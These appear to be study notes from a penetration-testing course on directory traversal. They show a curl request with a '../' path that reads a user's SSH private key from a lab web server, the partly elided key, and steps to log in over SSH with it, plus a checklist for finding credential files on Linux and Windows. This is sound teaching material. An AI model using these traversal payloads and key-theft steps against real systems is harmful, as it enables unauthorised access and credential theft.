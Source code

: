 When performing web application testing, we should mainly use tools such as _Burp_,[3](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/directory-traversal-44690/identifying-and-exploiting-directory-traversals-44650#fn-local_id_45-3) _cURL_,[4](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/directory-traversal-44690/identifying-and-exploiting-directory-traversals-44650#fn-local_id_45-4) or a programming language of our choice.

Using #curl to get SSH private key 

```
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
...
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
...
lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
-----END OPENSSH PRIVATE KEY-----
...
```
Copy and paste this key into file called `dt_key`

Change the permissions on this file and try to connect to target system using this private key over port 2222. 

```hlt:1,3
kali@kali:~$ chmod 400 dt_key

kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
...
offsec@68b68f3eb343:~$ 
```

On Windows, use the file
`C:\Windows\System32\drivers\etc\hosts`

To test for directory traversal vulnerabilities. 

On Linux, there's a straightforward attack vector for directory traversal 
1. List the users on the system by displaying contents of `/etc/passwd`
2. Check for private keys in their home directory
3. Use their private key to SSH to system

On Windows, there is not a straightforward path. We should gather info on running app/service and research paths leading to sensitive files. 

Ex: If app is running _Internet Information Services_ (IIS) web server. Research:
* log paths - located at `C:\inetpub\logs\LogFiles\W3SVC1\`
* web root structure 

